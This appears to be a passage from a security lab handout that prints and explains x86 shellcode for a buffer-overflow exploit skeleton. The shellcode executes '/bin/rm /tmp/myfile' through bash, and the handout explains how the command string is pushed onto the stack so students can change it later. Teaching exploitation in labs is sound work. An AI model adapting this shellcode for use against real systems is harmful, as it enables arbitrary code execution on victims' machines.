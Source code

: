 \begin{lstlisting}[label=format:code:shellcode, 
   caption=Shellcode in \texttt{server\_exploit\_skeleton.py} (can be downloaded from the lab's website)] 
# The following code runs "/bin/bash -c '/bin/rm /tmp/myfile'"
malicious_code= (
    # Push the command '/bin////bash' into stack (//// is equivalent to /)
    "\x31\xc0"                      # xorl %eax,%eax
    "\x50"                          # pushl %eax
    "\x68""bash"                    # pushl "bash"
    "\x68""////"                    # pushl "////"
    "\x68""/bin"                    # pushl "/bin"
    "\x89\xe3"                      # movl %esp, %ebx  

    # Push the 1st argument '-ccc' into stack (-ccc is equivalent to -c)
    "\x31\xc0"                      # xorl %eax,%eax
    "\x50"                          # pushl %eax
    "\x68""-ccc"                    # pushl "-ccc"
    "\x89\xe0"                      # movl %esp, %eax

    # Push the 2nd argument into the stack:
    #       '/bin/rm /tmp/myfile'
    # Students need to use their own VM's IP address
    "\x31\xd2"                      # xorl %edx,%edx
    "\x52"                          # pushl %edx
    "\x68""    "                    # pushl (an integer)  (*@\ding{192}@*)
    "\x68""ile "                    # pushl (an integer)
    "\x68""/myf"                    # pushl (an integer)
    "\x68""/tmp"                    # pushl (an integer)
    "\x68""/rm "                    # pushl (an integer)
    "\x68""/bin"                    # pushl (an integer)  (*@\ding{193}@*)
    "\x89\xe2"                      # movl %esp,%edx

    # Construct the argv[] array and set ecx
    "\x31\xc9"                      # xorl %ecx,%ecx
    "\x51"                          # pushl %ecx
    "\x52"                          # pushl %edx
    "\x50"                          # pushl %eax
    "\x53"                          # pushl %ebx
    "\x89\xe1"                      # movl %esp,%ecx

    # Set edx to 0
    "\x31\xd2"                      #xorl %edx,%edx

    # Invoke the system call
    "\x31\xc0"                      # xorl %eax,%eax
    "\xb0\x0b"                      # movb $0x0b,%al
    "\xcd\x80"                      # int $0x80
).encode('latin-1')
\end{lstlisting}
 

You need to pay attention to the code between Lines~ and~.
This is where we push the \texttt{/bin/rm} command string into the stack. In this task, you
do not need to modify this part, but for the next task, you do need to modify it. 
The \texttt{pushl} instruction can only push a 32-bit integer into the stack; that is why we
break the string into several 4-byte blocks. Since this is a shell command, adding additional
spaces do not change the meaning of the command; therefore, if the length of the string cannot
be divided by four, you can always add additional spaces.  The stack grows from high address to
low address (i.e., reversely), so we need to push the string also reversely into the 
stack.

